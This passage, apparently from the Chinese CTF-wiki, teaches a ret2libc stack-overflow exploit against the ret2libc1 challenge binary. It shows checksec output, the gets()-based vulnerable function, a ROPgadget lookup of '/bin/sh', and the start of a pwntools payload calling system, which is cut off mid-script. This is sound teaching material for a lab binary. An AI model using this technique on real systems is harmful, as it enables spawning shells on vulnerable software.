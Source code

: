 #### 例1

这里我们以 bamboofox 中 ret2libc1 为例  

点击下载: [ret2libc1](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1)

首先，我们可以检查一下程序的安全保护

```shell
$ checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

源程序为 32 位，开启了 NX 保护。下面来看一下程序源代码，确定漏洞位置

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

可以看到在执行 gets 函数的时候出现了栈溢出。此外，利用 ropgadget，我们可以查看是否有 /bin/sh 存在

```shell
$ ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```

确实存在，再次查找一下是否有 system 函数存在。经在 ida 中查找，确实也存在。

```asm
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]
```

那么，我们直接返回该处，即执行 system 函数。相应的 payload 如下

```python
#!/usr/bin/env python3
from pwn import *

#--------setup--------#

context(arch="i386", os="linux")

elf = ELF("ret2libc1")
p = elf.process()

#--------ret2system--------#

offset = 112
system = elf.sym["system"]
# ROPgadget --binary ret2libc1 --string "/bin/sh"
bin_sh = 0x08048720

payload = flat(
    b"A" * offset,
```